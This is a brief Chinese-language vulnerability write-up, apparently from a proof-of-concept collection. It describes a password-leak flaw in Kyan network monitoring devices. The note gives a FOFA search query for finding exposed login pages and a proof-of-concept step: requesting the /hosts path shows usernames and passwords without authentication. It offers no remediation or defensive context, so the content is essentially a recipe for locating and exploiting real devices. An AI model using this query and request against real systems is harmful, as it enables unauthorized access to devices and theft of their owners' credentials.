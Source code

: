 # Kyan-网络监控设备-账号密码泄露漏洞

## 资产收集
fofa：title="platform - Login"  
![](img/index.png)
## POC
访问url，`http://127.0.0.1/hosts` ，显示用户名密码  
![](img/hosts.jpg)